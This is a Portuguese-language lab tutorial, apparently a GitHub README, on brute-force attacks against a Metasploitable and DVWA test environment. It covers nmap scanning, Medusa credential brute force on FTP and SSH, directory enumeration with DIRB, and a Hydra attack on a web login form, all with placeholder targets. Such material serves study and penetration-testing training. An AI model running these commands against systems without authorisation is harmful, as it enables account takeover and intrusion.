 # Ataques de força bruta

Ataque de força bruta é uma tecnica de ciberataque que usa tentativa e erro para descobrir senhas chaves de criptografias ou credenciais de login tentando todas as combinações possiveis até encontrar a correta.
A eficiencia do ataque depende da complexidade da senha. 
Senhas muito complexas e muito grande se torna enviavel um ataque de força bruta.

Com isso, as melhores formas de se proteger contra ataques de força bruta é usar senhas fortes juntamente com um MFA. 

----------------------------------------------------------------------------------------------
### --ATENÇÃO--

`OS COMANDOS E TECNICAS APRESENTADOS AQUI SÃO REALIZADOS EM AMBIENTE CONTROLADO E VULNERAVEL PARA TESTES. QUALQUER TESTES REALIZADOS FORA DE UM CENARIO CONTROLADO É POR SUA CONTA E RISCO.`

----------------------------------------------------------------------------------------------

Usaremos  o sistema Metasploitable Para simular um ambiente em que faremos os ataques.

Simulando um ambiente real e vulnerável, suponhamos que de alguma forma através de alguma técnica descobrimos o IP do nosso alvo.

### SCANEANDO PORTAS E SERVIÇO USANDO O NMAP

Usaremos a ferramenta NMAP para reconhecer as portas e verificar os serviços rodando.

**INSTALAÇÃO**

`apt install nmap`

Usando o comando:

`nmap -sV [IP ALVO] > scan.txt`

Será feito o scan e o resultado salvo em um arquivo de texto com o nome scan.txt.

[Foto scan nmap]

Podemos verificar que ha vários serviços rodando e iremos realizar ataques em alguns deles como: ftp.


----


## INSTALANDO O MEDUSA

Caso não esteja usando o Kali linux ou alguma outra distribuição, pode obter com o seguinte comando:

`sudo apt install medusa`

para sistema MAC use o comando:

`brew install medusa`


**BRUTE FORCE FPT USANDO A FERRAMENTA MEDUSA**

Usando uma wordlist de usuarios e uma wordlist de senhas faremos o ataque no serviço FTP com o comando:

`medusa -h [IP DO ALVO] -U [WORDLIST USUARIOS] -P [WORDLIST SENHAS] -X [SERVIÇO] -t[QTD THEADS]`

Nesse cenário fizemos um brute force no serviço de FTP usando wordlists de usuários e senhas e 6 threads.

[foto ataque ftp medusa]

com o resultado de sucesso podemos testar e validar o acesso logando no serviço.

[foto login ftp]

----

**ATAQUE DE LOGIN SSH COM MEDUSA**

Para o brute force  ssh podemos usar o comando:

`medusa -h [IP ALVO] -M ssh -U [WORDLIST USERS] -P [WORDLIST ] -t 6`

[foto ataque ssh]

----

### ENUMERANDO DIRETORIOS

Para enumerar diretórios podemos usar qualquer ferramenta que automatize esse processo para termos mais agilidade.
usaremos o DIRB para enumerar mas tambem poderiamos usar o GOBUSTER

**INSTALANDO O DIRB**

`sudo apt install dirb`

**NSTALANDO O GOBUSTER**

`sudo apt install gobuster`

**ENUMERANDO DIRETÓRIOS COM O DIRB**

`dirb http://[IP DO ALVO]`

[foto enumeração dirb]

----

### ATAQUE DE LOGIN USANDO O HYDRA

Em nosso ambiente de ha uma pagina de login via formulário, faremos um brute force usando o HYDRA.

**INSTALAÇÃO DO HYDRA**

`sudo apt install hydra`

para tal cenário usaremos o comando:

`hydra [IP ALVO] -L [WORDLIST USER] -P [WORDLIST PASS] http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"`

